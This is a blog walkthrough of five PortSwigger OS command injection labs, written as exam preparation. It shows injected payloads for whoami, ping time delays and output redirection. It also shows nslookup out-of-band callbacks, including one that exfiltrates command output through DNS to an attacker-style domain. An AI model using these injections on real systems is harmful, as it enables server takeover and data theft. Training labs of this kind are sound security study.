 ```yaml
---
title: OS Command Injection - Portswigger Labs
description: OS Command Injection - Portswigger Labs
excerpt:
  Command Injection, allows an attacker to execute operating system (OS) commands on the server that is running an application and typically fully compromise the application and its data.
datetime: 2024-05-09T21:33:07.000+00:00
tags:
  - Command Injection
  - Portswigger
  - Labs
featured: true
category: Tutorial
author: Nicolas Gula
type: article
coverImage:  https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection.png
coverImageAlt: Microsoft AD
coverImageWidth: "2725"
coverImageHeight: "1400"
ogImage: "/assets/blog/hello-world/cover.jpg"
ogImageAlt: something
language: "Spanish"
---
```

----

As preparation for the eWPTX im going to work through the Portswigger labs. In this post im going to steal... take notes about OS command injection and resolve the labs. Let's get started!!!

## Whats is OS Command Injection ?
OS command injection, allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

## Lab 1 - OS Command Injection, simple case

>This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user. 

We go to the page and click in the "View Details" button.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/1.png)

When we do click in "Check Stock",send a request with parameters `productId=1&storeId=2` to `/product/stock`
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/3.png)

We change `storeId=2` for ...
```bash
productId=1&storeId=| whoami
```

and give us the name.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/4.png)

## Blind OS command injection vulnerabilities
### Detecting blind OS command injection using time delays
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send.

```
& ping -c 10 127.0.0.1 &
```

## Lab 2 - Blind OS command injection with time delays
>This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

We go to the Submit feedback page
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/1.png)

In the form put any data, send and capture with Burpsuite.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/3.png)

After testing in all parameters with the payload ...
```
| ping -c 10 127.0.0.1 &
```
URL encoded ...
```
|+ping+-c+10+127.0.0.1+%26
```

![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/4.png)

We see a delay of 9,440 milliseconds 🥳
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/5.png)

## Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file. The > character sends the output from the whoami command to the specified file. For example:

```
& whoami > /var/www/static/whoami.txt &
```

## Lab 3 - Blind OS command injection with output redirection

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/` The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the whoami command and retrieve the output. 

Same procedure like the lab before: go to the page of Submit Feedback,fill the form, send it, capture the request.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/1.png)

We search for the parameter where inject the command
```
| whoami > /var/images/www/quiensoy.txt &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/3.png)

## Exploiting Blind OS Command Injection Using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
```
& nslookup kgji2ohoyw.web-attacker.com &
```

## Lab 4 - Blind OS Command Injection with out-of-band Interaction

> This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

Same procedure 😮‍💨.....Copy the url from BurpCollaborator (Buy it! 😉)

```
| nslookup 2be44phd8284tgglwr1sf7ytekkb81wq.oastify.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/1.png)
And uala!
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/2.png)

## Next 

The out-of-band channel provides an easy way to exfiltrate the output from injected commands
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command
```
wwwuser.kgji2ohoyw.web-attacker.com
```

## Lab 5 - Blind OS Command Injection with out-of-band data exfiltration

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain. To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

🏃‍♀️Go to the page of Submit Feedback,🏃‍♀️ fill the form, 🏃‍♀️ send it, 🏃‍♀️capture the request, copy the link from Burp Collaborator (B - U -Y -- I - T - ! 😉⬇️)

```
| nslookup 'whoami' .blablablablabla.whatever.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/1.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/3.png)

## Ways of injecting OS Commands

The following command separators work on both Windows and Unix-based systems
```
&
&&
|
||
```

Unix
```
;
0x0a
\n
```

I hope you find it useful.👨‍💻

## Resources

[Portswigger](https://portswigger.net/web-security/os-command-injection)  

[HackTheBox](https://academy.hackthebox.com/module/details/109)  

[INE](https://ine.com/blog/command-injection)  

